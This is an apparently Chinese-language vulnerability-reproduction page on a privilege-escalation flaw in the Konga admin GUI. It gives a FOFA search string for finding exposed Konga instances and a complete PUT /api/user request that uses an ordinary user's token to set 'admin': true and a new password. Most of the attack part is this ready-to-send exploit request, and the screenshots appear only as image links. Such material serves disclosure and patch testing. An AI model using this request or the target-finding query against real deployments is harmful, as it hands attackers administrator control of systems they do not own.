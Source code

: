 # Konga 普通用户越权获取管理员权限漏洞

## 漏洞描述

Konga 普通用户通过发送特殊的请求可越权获取管理员权限

## 漏洞影响

<a-checkbox checked>Konga</a-checkbox></br>

## FOFA

<a-checkbox checked>"konga"</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947280.png)



创建非管理员用户后登录并获取token

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947390.png)



发送请求包, 将token修改为刚刚获取的

```plain
PUT /api/user/7 HTTP/1.1
Host: 127.0.0.1:1337
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 241

{
  "admin": true,
  "passports": {
    "password": "1234abcd",
    "protocol": "local"
  },
  "password_confirmation": "1234abcd",
  "token": "non-administrator user token"
}
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947376.png)

成功转为管理员用户

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131947324.png)